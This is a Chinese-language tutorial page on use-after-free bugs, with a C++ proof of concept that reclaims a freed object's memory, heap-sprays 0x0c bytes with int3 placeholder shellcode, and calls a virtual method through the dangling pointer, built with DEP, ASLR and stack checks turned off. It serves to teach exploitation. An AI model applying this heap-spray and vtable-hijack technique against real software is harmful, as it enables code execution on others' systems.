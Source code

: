 Use After Free
========================================

简介
----------------------------------------
当申请的一个堆块在释放后，指向该堆块的指针没有清空（置NULL），就形成了一个悬挂指针（dangling pointer），而后再申请出堆块时会将刚刚释放出的堆块申请出来，并复写其内容，而悬挂指针此时仍然可以使用，使得出现了不可控的情况。攻击者一般利用该漏洞进行函数指针的控制，从而劫持程序执行流。

示例代码
-----------------------------------------

::

	#include "stdafx.h"
	#include<string>
	#include<stdio.h>

	class attack
	{
	public:
		unsigned int num;
		char buffer[8];
	public:
		attack(unsigned int n) { num = n; };
		virtual ~attack() {};
	public:
		virtual void printnum()
		{
			printf("num=%d\n", num);
		}
	};

	int main()
	{
		_asm int 3;
		
		attack *p1;
		char *p2;

		p1 = new attack(1);
		printf("p1：0x%p,size=%d\n", p1,sizeof(attack));
		delete p1;

		// 分配 p2 去“占坑”p1 的内存位置
		p2 = (char*)malloc(sizeof(attack));
		printf("p2：0x%p,size=%d\n", p2,sizeof(attack));
		memset(p2, 0x0c, 4);

		char *shellcode=new char[200 * 1024 * 1024];//堆喷
		memset(shellcode, 0x0c, 200 * 1024 * 1024);
		memset(shellcode + 200 * 1024 * 1024 - 0x10, 0xcc, 0x10);//shellcode

		// 重引用已释放的buf1指针，但却导致buf2值被篡改
		printf("==== Use After Free ===\n");
		p1->printnum();
		free(p2);
		delete[]shellcode;
		return 0;
	}

编译环境：
 | IDE：Visual Studio 2015，release
 | 编译选项：
 | 字符集：使用多字节字符集
 | c/c++->优化->优化：已禁用
 | c/c++->优化->启用内部函数：否
 | c/c++->优化->全程序优化：否
 | c/c++->预处理器->预处理定义：_CRT_SECURE_NO_WARNINGS（或禁用SDL）
 | c/c++->代码生成->安全检查：禁用安全检查（/GS-）
 | 链接器->高级->数据执行保护(DEP)-否
 | 链接器->高级->随机基址-否
 | 附件：`HeapUAF.zip <..//_static//HeapUAF.zip>`_